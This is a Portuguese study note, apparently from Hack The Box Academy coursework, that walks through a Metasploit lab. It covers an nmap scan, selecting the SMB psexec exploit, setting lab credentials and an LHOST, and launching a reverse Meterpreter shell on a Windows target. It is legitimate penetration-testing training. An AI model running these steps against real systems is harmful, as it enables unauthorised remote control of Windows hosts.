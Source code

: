 Nesta seção, interagiremos com o `community edition`Metasploit no Pwnbox. Usaremos `modules`payloads pré-construídos e artesanais com `MSFVenom`. É importante observar que muitas empresas de segurança cibernética estabelecidas utilizam a edição paga do Metasploit chamada `Metasploit Pro`para conduzir testes de penetração, auditorias de segurança e até mesmo campanhas de engenharia social. Se você quiser explorar as diferenças entre a edição da comunidade e o Metasploit Pro, pode conferir este [gráfico de comparação](https://www.rapid7.com/products/metasploit/download/editions/) .

## Praticando com Metasploit

Vamos começar a trabalhar na prática com o Metasploit iniciando o console do framework Metasploit como root ( `sudo msfconsole`)
#### Iniciando MSF

```bash
sudo msfconsole
```
![[Pasted image 20240830080246.png]]

Podemos ver que há arte ASCII criativa apresentada como banner no lançamento e alguns números de interesse particular.
- `2131` exploits
- `592` cargas úteis

Vamos nos familiarizar com as cargas úteis do Metasploit usando um clássico `exploit module`que pode ser usado para comprometer um sistema Windows. Lembre-se de que o Metasploit pode ser usado para mais do que apenas exploração. Também podemos usar módulos diferentes para escanear e enumerar alvos.

#### Varredura NMAP

```bash
nmap -sC -sV -Pn 10.129.164.25
```
![[Pasted image 20240830080218.png]]

Na saída, vemos várias portas padrão que normalmente são abertas em um sistema Windows por padrão. Lembre-se de que escaneamento e enumeração são uma excelente maneira de saber qual SO (Windows ou Linux) nosso alvo está executando para encontrar um módulo apropriado para executar com o Metasploit. Vamos usar `SMB`(ouvindo em `445`) como o vetor de ataque potencial.

Uma vez que tenhamos essas informações, podemos usar a funcionalidade de busca do Metasploit para descobrir módulos que estão associados ao SMB. No `msfconsole`, podemos emitir o comando `search smb`para obter uma lista de módulos associados às vulnerabilidades do SMB:

#### Pesquisando no Metasploit

```msf6
msf6 > search smb
```
![[Pasted image 20240830080723.png]]

Veremos uma longa lista de `Matching Modules`associados à nossa busca. Observe o formato de cada módulo. Cada módulo tem um número listado na extrema esquerda da tabela para facilitar a seleção do módulo, um `Name`, `Disclosure Date`, `Rank`e .`Check``Description`

> [!NOTE] O número à `esquerda` de cada módulo potencial é um número relativo baseado na sua busca que pode mudar conforme os módulos são adicionados ao Metasploit. Não espere que esse número corresponda toda vez que você fizer a busca ou tentar usar o módulo.

Vamos analisar um módulo em particular para entendê-lo dentro do contexto de cargas úteis.

`56 exploit/windows/smb/psexec`

| Saída      | Significado                                                                                                                                                                |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `56`       | O número atribuído ao módulo na tabela dentro do contexto da busca. Esse número facilita a seleção. Podemos usar o comando `use 56`para selecionar o módulo.               |
| `exploit/` | Isto define o tipo de módulo. Neste caso, este é um módulo de exploração. Muitos módulos de exploração no MSF incluem o payload que tenta estabelecer uma sessão de shell. |
| `windows/` | Isso define a plataforma que estamos mirando. Neste caso, sabemos que o alvo é o Windows, então o exploit e o payload serão para o Windows.                                |
| `smb/`     | Isso define o serviço para o qual a carga útil no módulo é escrita.                                                                                                        |
| `psexec`   | Isso define a ferramenta que será carregada no sistema de destino se ele estiver vulnerável.                                                                               |

Depois de selecionar o módulo, notaremos uma alteração no prompt que nos dá a capacidade de configurar o módulo com base em parâmetros específicos do nosso ambiente.

#### Seleção de opções
```msf6
msf6 > use 56
```
![[Pasted image 20240830081018.png]]

Observe como `exploit`está fora dos parênteses. Isso pode ser interpretado como o tipo de módulo MSF sendo um exploit, e o exploit específico e o payload são escritos para Windows. O vetor de ataque é `SMB`, e o payload Meterpreter será entregue usando [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) . Vamos aprender mais sobre como usar esse exploit e entregar o payload usando o `options`comando.

#### Examinando as opções de um Exploit

```msf6
msf6 exploit(windows/smb/psexec) > options
```
![[Pasted image 20240830081549.png]]

Não usaremos `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME`e `SERVICE_NAME`nesta seção. Observe como este exploit em particular usará uma conexão de shell TCP reversa utilizando `Meterpreter`.

Um shell Meterpreter nos dá muito mais funcionalidade do que um shell TCP reverso bruto, como estabelecemos nas seções anteriores deste módulo. É o payload padrão usado no Metasploit.

Usaremos o `set`comando para configurar as seguintes configurações:

#### Opções de configuração

```msf6
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71

msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$

msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!

msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student

msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Essas configurações garantirão que nossa carga útil seja entregue ao destino apropriado ( `RHOSTS`), carregada no compartilhamento administrativo padrão ( `ADMIN$`) utilizando credenciais ( `SMBPass`& `SMBUser`) e, em seguida, inicie uma conexão de shell reversa com nossa máquina host local ( `LHOST`).

#### Explorações à distância

```msf6
msf6 exploit(windows/smb/psexec) > exploit
```
![[Pasted image 20240830081922.png]]

Após emitirmos o `exploit`comando, o exploit é executado, e há uma tentativa de entregar a carga útil no alvo utilizando a carga útil do Meterpreter.  Sabemos que isso foi bem-sucedido porque um foi `stage`enviado com sucesso, o que estabeleceu uma sessão de shell do Meterpreter ( `meterpreter >`) e uma sessão de shell em nível de sistema. Meterpreter é uma carga útil que usa injeção de DLL na memória para estabelecer furtivamente um canal de comunicação entre uma caixa de ataque e um alvo.

Neste caso, conforme detalhado na [Documentação do Módulo Rapid 7](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) : "Este módulo usa um nome de usuário e senha de administrador válidos (ou hash de senha) para executar uma carga útil arbitrária. Este módulo agora é capaz de limpar depois de si mesmo. O serviço criado por esta ferramenta usa um nome e uma descrição escolhidos aleatoriamente. "v

Como outros intérpretes de linguagem de comando (Bash, PowerShell, ksh, etc...), as sessões de shell do Meterpreter nos permitem emitir um conjunto de comandos que podemos usar para interagir com o sistema de destino. Podemos usar o `?`para ver uma lista de comandos que podemos usar.

Notaremos limitações com o shell do Meterpreter, então é bom tentar usar o `shell`comando para cair em um shell de nível de sistema se precisarmos trabalhar com o conjunto completo de comandos de sistema nativos para nosso destino.
#### Shell Interativo
![[Pasted image 20240830082617.png]]




























































































